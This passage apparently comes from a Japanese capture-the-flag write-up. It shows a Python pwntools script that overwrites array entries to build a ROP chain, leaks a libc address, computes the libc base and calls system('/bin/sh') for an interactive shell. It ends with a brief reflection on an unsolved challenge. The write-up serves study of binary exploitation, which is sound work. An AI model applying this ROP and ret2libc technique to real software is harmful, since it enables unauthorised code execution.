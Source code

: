 ```python
only_ret = 0x4013e4

#
libc = ELF('./libc-2.31.so')
off_setbuf = libc.symbols["setbuf"]
off_system = libc.symbols["system"]
off_binsh = next(libc.search(b"/bin/sh"))

def overwrite(idx, n):
	conn.sendlineafter(": ", str(idx))
	conn.sendlineafter(": ", str(n))


def exploit():
	conn.sendlineafter(": ", "5")
	overwrite(4,200)
	overwrite(0,only_ret)
	overwrite(1,only_ret)
	overwrite(2,only_ret)
	overwrite(3,pop3_ret)
	#overwrite(4,size)
	#overwrite(5,n)
	#overwrite(6,arr)
	overwrite(7,only_ret)
	overwrite(8,rdi_ret)
	overwrite(9,got_setbuf)
	overwrite(10,plt_printf)
	overwrite(11,addr_start)

	overwrite(6,got_exit)
	overwrite(0,rdi_ret)
	conn.sendlineafter(": ", "201")

	libc_setbuf = align2qword(conn.recv(6))
	libc_base = libc_setbuf - off_setbuf
	print(hex(libc_base))

	conn.sendlineafter(": ", "5")
	overwrite(4,200)
	overwrite(0,rdi_ret)
	overwrite(1,libc_base+off_binsh)
	overwrite(2,libc_base+off_system)
	conn.sendlineafter(": ", "201")

	conn.interactive()	

if __name__ == "__main__":
	exploit()	
```
### crc32pwn
解けなかった。
ulimitとか/proc/系のファイルでどうにかするのか〜とか疑ってたけど全然違った。
readがst_size分指定しないのかなり怪しいな〜とは思ってたが知識不足って感じ。
反省
